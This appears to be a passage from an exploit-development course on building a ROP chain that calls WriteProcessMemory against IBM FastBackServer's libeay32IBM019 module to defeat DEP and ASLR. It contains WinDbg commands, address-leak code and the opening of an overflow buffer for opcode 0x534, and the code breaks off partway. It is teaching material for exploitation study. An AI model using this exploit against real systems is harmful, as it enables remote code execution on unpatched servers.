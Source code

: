 Because of the stack overflow, our shellcode will be located on the stack after we trigger the vulnerability. Therefore, for the third API argument, we must supply the shellcode's stack address. The fourth argument will be the shellcode size.

The last argument needs to be a pointer to a writable DWORD where WriteProcessMemory will store the number of bytes that were copied. We could use a stack address for this pointer, but it's easier to use an address inside the data section of libeay32IBM019, as we do not have to gather it at runtime.

We can use the !dh4 command to find the data section's start address, supplying the -a flag to dump the name of the module along with all header information.
	!dh -a libeay32IBM019



we learn that the offset to the data section is 0xD5000, and its size is 0xF018.

We need to check the contents of the address to ensure they are not being used and to verify memory protections. Section headers must be aligned on a page boundary, so let's dump the contents of the address just past the size value.
	? libeay32IBM019 + d5000 + f018  + 4
	dd 032d401c
	!vprot 032d401c
	? 032d401c - libeay32IBM019
	


we found a writable, unused DWORD inside the data section, which is exactly what we need. It is located at offset 0xe401c from the base address.

Now that we know what arguments to supply to WriteProcessMemory, let's implement a call to this API using ROP.

First, we need to reintroduce the code we previously used to trigger the buffer overflow vulnerability in the scanf call (opcode 0x534) into our proof of concept.

Second, we'll insert a ROP skeleton consisting of the API address, return address, and arguments to use WriteProcessMemory instead of VirtualAlloc. In the previous FastBackServer exploit, we used absolute addresses for ROP gadgets, but in this case (because of ASLR), we'll identify every gadget as libeay32IBM019's base address plus an offset.

lists the code required to create a ROP skeleton for WriteProcessMemory.
...
libeay32IBM019Func = leakFuncAddr(b"N98E_CRYPTO_get_new_lockid", server)
dllBase = libeay32IBM019Func - 0x14E0
print(str(hex(dllBase)))

# Get address of WriteProcessMemory
WPMAddr = leakFuncAddr(b"WriteProcessMemory", server)
print(str(hex(WPMAddr)))

# psAgentCommand
buf = bytearray([0x41]*0xC)
buf += pack("<i", 0x534)  # opcode
buf += pack("<i", 0x0)    # 1st memcpy: offset
buf += pack("<i", 0x700)  # 1st memcpy: size field
buf += pack("<i", 0x0)    # 2nd memcpy: offset
buf += pack("<i", 0x100)  # 2nd memcpy: size field
buf += pack("<i", 0x0)    # 3rd memcpy: offset
buf += pack("<i", 0x100)  # 3rd memcpy: size field
buf += bytearray([0x41]*0x8)
